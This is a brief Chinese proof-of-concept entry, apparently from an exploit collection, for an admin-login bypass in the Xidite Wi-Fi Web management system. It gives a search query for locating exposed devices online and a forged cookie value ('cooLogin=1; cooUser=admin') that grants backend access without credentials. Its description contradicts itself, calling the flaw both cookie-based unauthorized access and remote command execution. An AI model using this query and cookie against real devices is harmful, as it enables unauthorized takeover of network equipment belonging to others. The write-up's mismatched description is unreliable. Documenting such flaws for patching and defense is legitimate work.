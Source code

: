 # 西迪特 Wi-Fi Web管理 Cookie 越权访问漏洞

# 西迪特 Wi-Fi Web管理 Cookie 越权访问漏洞

## 漏洞描述

西迪特 Wi-Fi Web管理系统后台过滤不足导致远程命令执行漏洞

## 漏洞影响

```
西迪特 Wi-Fi Web管理
```

## 网络测绘

```
title=="Wi-Fi Web管理"
```

## 漏洞复现o

登录页面

![image-20220519183944313](/images/202205191839372.png)

添加Cookie，即可登录后台

```
Cookie: timestamp=0; cooLogin=1; cooUser=admin
```

![image-20220519184113756](/images/202205191841849.png)

